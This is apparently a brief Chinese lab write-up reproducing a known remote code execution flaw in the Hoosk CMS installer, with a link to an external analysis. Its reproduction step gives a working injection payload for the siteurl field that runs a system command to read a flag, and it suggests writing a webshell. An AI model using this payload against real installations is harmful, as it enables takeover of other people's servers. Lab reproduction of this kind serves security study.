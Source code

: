 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-26041)
## 2. 漏洞分析
[RCE & XSS & SQL 注入](https://github.com/kr0za/bugs/blob/master/hoosk.md#0x01-install-rce)
## 3. 漏洞复现
开启环境进入安装界面，RCE的漏洞点在siteurl里面，可以直接尝试读取flag，也可写个webshell……自由发挥
**RCE—示例如下**
siteurl：`a.com/');echo system("cat /flag");exit();//`
注意其他信息的填写！
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146759.png)
![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146688.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310011146770.png)

SQL注入，XSS利用参见漏洞分析